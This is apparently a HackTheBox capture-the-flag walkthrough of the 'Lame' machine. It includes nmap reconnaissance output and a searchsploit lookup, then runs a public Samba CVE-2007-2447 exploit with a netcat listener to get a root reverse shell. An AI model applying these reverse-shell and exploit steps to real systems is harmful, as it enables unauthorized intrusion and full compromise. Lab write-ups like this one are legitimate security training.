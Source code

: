 # HackTheBox : LAME

Nmap scans

```zsh
nmap -sS -v -p- -r -Pn 10.10.10.3
```
This will give us all of the Open Ports. We can then run a script and version scan on those open parts.

```PORT     STATE SERVICE     VERSION                                                                                                                                          
21/tcp   open  ftp         vsftpd 2.3.4                                                                                                                                     
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                      
| ftp-syst:                                                                                                                                                                 
|   STAT:                                                                                                                                                                   
| FTP server status:                                                                                                                                                        
|      Connected to 10.10.14.4                                                                                                                                              
|      Logged in as ftp                                                                                                                                                     
|      TYPE: ASCII                                                                                                                                                          
|      No session bandwidth limit                                                                                                                                           
|      Session timeout in seconds is 300                                                                                                                                    
|      Control connection is plain text                                                                                                                                     
|      Data connections will be plain text                                                                                                                                  
|      vsFTPd 2.3.4 - secure, fast, stable                                                                                                                                  
|_End of status                                                                                                                                                             
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)               
| ssh-hostkey:                             
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)                        
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)                        
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)            
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))           
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                        

Host script results:                       
|_clock-skew: mean: -3d00h55m34s, deviation: 2h49m45s, median: -3d02h55m37s           
| smb-os-discovery:                        
|   OS: Unix (Samba 3.0.20-Debian)                                                    
|   Computer name: lame                    
|   NetBIOS computer name:                 
|   Domain name: hackthebox.gr   
|   FQDN: lame.hackthebox.gr               
|_  System time: 2020-05-24T01:33:28-04:00                                            
| smb-security-mode:                       
|   account_used: guest                    
|   authentication_level: user             
|   challenge_response: supported                                                     
|_  message_signing: disabled (dangerous, but default)                                
|_smb2-time: Protocol negotiation failed (SMB2)
 
```

Now on first glance vsftpd appears to be vulnerable, we can try but it won't work. So finally we move our eyes on SMB. The samba version is 3.0.20

```zsh 
searchsploit samba 3.0
```

```Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution```
This stands out to me but this is a metasploit module. So,I try to look for a python version and came across this link.

```https://amriunix.com/post/cve-2007-2447-samba-usermap-script/```
Downloaded the github code and then set up a listener at port 4444 ```rlwrap nc -lvnp 4444```

And finally ran the exploit using :

```python usermap_script.py 10.10.10.3 139 10.10.14.4 4444``` 

Now ! you a reverse shell and with root ! 